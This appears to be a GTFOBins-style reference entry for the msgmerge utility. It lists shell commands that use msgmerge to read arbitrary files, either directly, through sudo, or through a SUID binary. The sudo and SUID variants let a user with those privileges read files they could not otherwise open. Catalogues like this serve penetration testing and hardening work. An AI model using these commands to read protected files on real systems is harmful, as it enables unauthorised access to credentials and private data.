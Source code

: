 description: The file is parsed and displayed as a Java `.properties` file, so this may not be suitable to read arbitrary binary data.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        msgmerge -P $LFILE /dev/null
  sudo:
    - code: |
        LFILE=file_to_read
        sudo msgmerge -P $LFILE /dev/null
  suid:
    - code: |
        LFILE=file_to_read
        ./msgmerge -P $LFILE /dev/null
---
